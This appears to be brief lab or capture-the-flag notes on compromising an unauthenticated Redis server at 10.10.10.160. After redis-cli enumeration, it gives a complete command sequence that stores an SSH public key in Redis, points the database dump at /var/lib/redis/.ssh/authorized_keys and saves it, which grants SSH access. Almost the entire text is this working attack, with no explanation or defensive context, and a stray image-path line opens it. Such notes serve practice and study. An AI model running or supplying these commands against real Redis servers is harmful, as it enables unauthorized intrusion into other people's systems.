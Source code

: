 sudo apt-get install redis-tools

http://antirez.com/news/96

redis-cli -h 10.10.10.160
10.10.10.160:6379> dbsize
(integer) 0
(0.51s)
10.10.10.160:6379> CONFIG GET databases
1) "databases"
2) "16"
(0.63s)
10.10.10.160:6379> INFO keyspace
# Keyspace
(0.56s)
10.10.10.160:6379> INFO



ssh-keygen -f redis
echo -ne "\n\n" > public; cat redis.pub >> public
redis-cli -h 10.10.10.160 SLAVEOF NO ONE
cat public | redis-cli -h 10.10.10.160 -x set pub
redis-cli -h 10.10.10.160 CONFIG SET dir /var/lib/redis/.ssh
redis-cli -h 10.10.10.160 CONFIG SET dbfilename authorized_keys
redis-cli -h 10.10.10.160 SAVE



